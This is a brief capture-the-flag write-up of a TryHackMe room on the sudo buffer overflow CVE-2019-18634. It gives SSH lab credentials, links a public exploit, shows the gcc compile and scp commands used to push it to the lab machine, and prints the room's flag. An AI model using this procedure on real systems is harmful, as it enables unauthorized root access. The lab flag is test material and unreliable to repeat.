


# Sudo Buffer Overflow
# [cd ../](../index.md)
> A tutorial room exploring CVE-2019-18634 in the Unix Sudo Program. Room Two in the SudoVulns Series

# Start
- We got the user creds `tryhackme`:`tryhackme`
- Log in with ssh

```
ssh -p 4444 tryhackme@10.10.234.139
```
- We are not allowed to run /bin/bash with sudo  
  

## Exploit
https://github.com/saleemrashid/sudo-cve-2019-18634  
We only need [exploit.c](exploit.c)
- Download to the attacker machine
- Compile it( `gcc exploit.c -o exploit` )
- Deploy it to the victim with scp

```
scp -P 4444 exploit tryhackme@10.10.234.139:/home/tryhackme/exploit
```
- Execute it

# Got root
And got the flag :D
```
THM{buff3r_0v3rfl0w_rul3s}
```

